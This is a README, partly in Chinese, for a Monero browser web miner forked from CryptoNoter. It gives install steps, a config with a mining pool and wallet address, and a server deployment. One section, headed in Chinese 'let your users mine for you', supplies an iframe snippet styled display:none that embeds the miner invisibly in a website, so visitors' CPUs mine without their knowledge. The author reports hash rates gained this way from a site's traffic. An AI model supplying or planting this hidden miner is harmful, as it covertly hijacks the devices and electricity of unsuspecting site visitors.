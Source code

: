 ## Monero(XMR) Web Miner
Monero(XMR) Web Miner modified version from cryptonoter/CryptoNoter. Check the original repository in https://github.com/cryptonoter/CryptoNoter.


## Requirements
The project is basically a "Plug & Play" installation. Most of the configurations are setup automatically when you run the installation. Simply follow the step by step installation. 

However, if you decide to modify or optimize CryptoNoter for maximum mining capabilities, you will need good knowledge on Nginx Reverse Proxy, javascript, etc. For example, I did approx 1550 H/s for a website with approx 15,000 daily visitors (Avg Time on Page: 55 secs / visitor) before optimization. After optimization, I did on avg 3500 H/s. After the latest update (18/12/17), I am doing 4300 H/s. （现在直接用的nodejs，没用nginx，性能应该没那么高）

`Minimum System Requirements`
1. Server with at least 1 CPU, 1 GB Ram & 8GB Harddisk [You will need better specs if you have higher traffic load]
2. Ubuntu(Debian) OS
3. Nodejs, NPM & Forever Packages


## Installation
首先保证自己装好了nodejs
### 下载
``` bash
git clone https://github.com/nladuo/xmr-web-miner.git
cd xmr-web-miner && npm install 
```
### 安装软件
``` bash
npm install -g forever
npm install -g http-server
```

## Configuration
### 配置config.json
``` json
{
    "lhost": "10.18.92.38",
    "lport": 7777,
    "domain": "10.18.92.38",
    "pool": "pool.supportxmr.com:5555",
    "addr": "44tSv6j2X8J2HpcHPxd9G7L2PxawZCr7MaxsA3F8QDwC7j25cyqjS9PMK2EcWPz77qavwsgh61a5EF1VBsPM27PDQEeMoLP",
    "pass": "x10"
}
```
### 配置HTTP
修改web目录中processor.js、worker.js、miner.html、lib/cryptonoter-asmjs.min.js中的"[http://10.18.92.38:7777/]()"和"[ws://10.18.92.38:7777/]()"改成你自己的。

### 配置HTTPS
- 首先搞好证书
- 把上面的"[http://10.18.92.38:7777/]()"换成"[https://域名:端口/]()"
- 把上面的"[ws://10.18.92.38:7777/]()"换成"[wss://域名:端口/]()"

## Deployment
### 调试运行
``` bash
node xmr-server.js
```

### 使用forever
``` bash
forever start xmr-server.js
```
## 让你的用户帮你挖矿
### 嵌入iframe到你的网页
``` html
<iframe style="display: none;" src="http://10.18.92.38:7777/miner.html" name="iframe_xmr"></iframe>
```
### 效果
``` bash
cd test_miner
http-server # 然后打开http://localhost:8080/test_miner.html
```
![](test_miner/result.png)
## Donations To Support
* There is NO DEVELOPER FEE hardcoded into this project. Donation is as per your goodwill to support my development.
I am looking to add other cryptonote currencies support into this project and also to create a monero pool specifically for javascript browser mining. If you are interested in my future developments, i would really appreciate a small donation to support this project.
```html
My Monero Wallet Address (XMR)
42zXE5jcPpWR2J6pVRE39uJEqUdMWdW2H4if27wcS1bwUbBRTeSR5aDbAxP5KCjWueiZevjSBxqNZ36Q5ANPND3m4RJoeqX
```
```html
My Bitcoin Wallet Address (BTC)
34Z53zGc888pUYRsFtxgQxRVVLKwcWtjeP
```
```html
My Litecoin Wallet Address (LTC)
MJZZ9qq8ioAecyVDD7zMDStJXpY5thH2qC
```
* PayPal Donation<br />
And if you prefer the traditional mode, you may donate to this project via PayPal by sending the donation to my PayPal email: cryptonoter@gmail.com

Last but not least, i am looking forward to hearing all of the great projects built upon this web miner project. If you've built something great, drop me an email so that i can share with my readers, users and friends.



## License
* Note: If you are implementing this project in your personal or commercial projects, please be a nice and supportive user. You may give a credit back to my project or alternatively if you wish to keep credits hidden, please kindly consider a donation to keep this project running.

MIT https://raw.github.com/cryptonoter/CryptoNoter/master/LICENSE

## Missions
Great things happen when we work together. The power of collaboration